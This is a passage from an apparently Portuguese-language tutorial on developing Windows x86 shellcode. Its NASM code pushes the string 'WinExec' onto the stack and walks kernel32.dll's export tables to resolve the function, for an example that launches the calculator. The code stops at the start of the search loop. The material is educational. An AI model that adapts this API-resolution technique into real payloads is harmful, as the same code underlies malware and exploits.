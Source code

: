 ```
kernel32.dll - 0x75700000
WinExec      - 0x75765140
```

### Desenvolvendo o *shellcode*, Exemplo 1 - Invocando a Calculadora

Seguindo o fluxo para invocar a função, vimos que a partir do passo **6** não temos uma forma automatizada de encontrar os endereços, tivemos a facilidade de procurar manualmente, mas se uma atualização alterar o ordinal da função, o *shellcode* deixa de funcionar. Portanto, vamos escrever um programa, que fará um *loop* na `EXPORT Name Pointer Table` a procura da *string*  que contenha o nome da função desejada passando por cada ordinal de forma incremental.

Primeiramente, precisamos enviar o nome da função a ser procurada na *stack*, ela precisa estar em hexadecimal e em ordem inversa (*little endian*) separada a cada 8 bytes. Usaremos o programa em Go que utilizamos anteriormente.

![](/img/posts/Pasted%20image%2020240718161649.png)

Temos os seguintes valores:

```
0x4e636578
0x456e6957
```

Note que o "N" inserido ao final, serve somente para completar os 8 bytes, no programa ASM trataremos este caractere.

Este trecho abaixo, fará a procura do endereço da função utilizando os 9 passos listados acima, muita atenção, pois é a continuação do programa que procura o endereço base da kernel32.dll, portanto ele conta com que o endereço base da kernel32.dll já esteja armazenado em `eax`.

```nasm
    ;enviando nome da função para stack
    xor edx, edx                ;zerando o registrador
    push 0x4e636578             ;movendo Ncex para stack
    sub word [esp + 0x3], 0x4e  ;removendo o "N"
    push 0x456e6957             ;movendo EniW para stack
    ;encontrando o endereço da Export Table e armazenando em edx
    mov edx, [eax + 0x3c]       ;conteudo de 0x3c é f8 e foi movido para edx
    add edx, eax                ;adicionado o endereço base da kernel32 a f8, edx = 0x757000f8
    mov edx, [edx + 0x78]       ;adicionado 0x78 (170 - f8) para obter o RVA de Image Export Directory, edx = 0x93df0
    add edx, eax                ;adicionado o endereço base da kernel32 para obter o endereço base de Image Export Directory, edx = 0x75793df0
    ;encontrando o endereço da Export Name Pointer table e armazenando em ecx
    mov ecx, [edx + 0x20]       ;adicionadno 0x20 a 0x75793df0 para obter o RVA da Export Name Pointer Table, ecx = 0x957c4
    add ecx, eax                ;adicionado o endereço base da kernel32 para obter o endereço base de Export Name Pointer Table, ecx = 0x757957c4
    mov [ebp-4], ecx            ;movendo o endereço base de Export Name Pointer Table para a variavel [ebp-4]
    ;encontrando o endereço de Export Address table e armazenando em edx
    mov edx, [edx + 0x1c]       ;adicionando 0x1c a 0x75793df0 para obter o RVA da Export Address Table, edx = 0x93e18
    add edx, eax                ;adicionado o endereço base da kernel32 para obter o endereço base de Export Address Table, edx = 0x75793e18

;encontrando o endereço da WinExec na kernel32.dll com loop
    xor ebx, ebx                    ;zerando o registrador para uso no loop
findproc:
```